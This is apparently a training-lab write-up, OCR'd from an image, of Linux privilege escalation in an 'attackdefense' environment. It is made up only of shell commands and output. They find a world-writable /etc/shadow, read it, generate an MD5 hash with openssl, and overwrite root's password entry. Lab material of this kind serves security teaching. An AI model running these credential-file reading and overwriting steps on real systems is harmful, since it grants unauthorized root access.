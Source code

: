 ```
plugdev:x:46:
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
student:x:999:
```

```
student@attackdefense:~$ groups student
student : student
```

```
student@attackdefense:~$ find / -not -type l -perm -o+w
/etc/shadow
```

```
student@attackdefense:~$ cat /etc/shadow
root:*:17764:0:99999:7:::
daemon:*:17764:0:99999:7:::
bin:*:17764:0:99999:7:::
sys:*:17764:0:99999:7:::
sync:*:17764:0:99999:7:::
games:*:17764:0:99999:7:::
man:*:17764:0:99999:7:::
lp:*:17764:0:99999:7:::
mail:*:17764:0:99999:7:::
news:*:17764:0:99999:7:::
uucp:*:17764:0:99999:7:::
proxy:*:17764:0:99999:7:::
www-data:*:17764:0:99999:7:::
backup:*:17764:0:99999:7:::
list:*:17764:0:99999:7:::
irc:*:17764:0:99999:7:::
gnats:*:17764:0:99999:7:::
nobody:*:17764:0:99999:7:::
_apt:*:17764:0:99999:7:::
student:!:17797::::::
```

```
student@attackdefense:~$ ls -al /etc/shadow
-rw-rw-rw- 1 root shadow 523 Sep 23  2018 /etc/shadow
```

```
student@attackdefense:~$ openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/
```

```
student@attackdefense:~$ vim /etc/shadow
student@attackdefense:~$ cat /etc/shadow
root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:17764:0:99999:7:::
daemon:*:17764:0:99999:7:::
bin:*:17764:0:99999:7:::
sys:*:17764:0:99999:7:::
sync:*:17764:0:99999:7:::
games:*:17764:0:99999:7:::
man:*:17764:0:99999:7:::
lp:*:17764:0:99999:7:::
mail:*:17764:0:99999:7:::
news:*:17764:0:99999:7:::
uucp:*:17764:0:99999:7:::
proxy:*:17764:0:99999:7:::
www-data:*:17764:0:99999:7:::
```